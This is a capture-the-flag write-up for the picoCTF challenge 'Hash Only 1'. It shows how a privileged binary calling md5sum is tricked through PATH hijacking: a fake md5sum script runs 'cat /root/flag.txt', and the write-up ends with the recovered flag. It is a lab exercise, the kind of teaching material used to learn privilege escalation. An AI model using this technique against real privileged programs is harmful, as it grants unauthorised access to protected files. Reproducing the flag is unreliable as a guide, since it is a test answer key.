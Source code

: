 # Hash Only 1

## Description

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!
Additional details will be available after launching your challenge instance.


## Answer

We immediatly tried running strings on the binary:
```
/bin/bash -c'md5sum /root/flag.txt'
```

* our first thought was that it's some sort of command injection.

One of our other officers actually did something pretty creative:

"when you run strings on it does call md5sum so you have to change the path"

```
echo '#!/bin/bash' > md5sum
echo 'cat /root/flag.txt' >> md5sum
chmod +x md5sum  # Make it executable
export PATH=.:$PATH
```

exploited string: picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_fc434b2b}

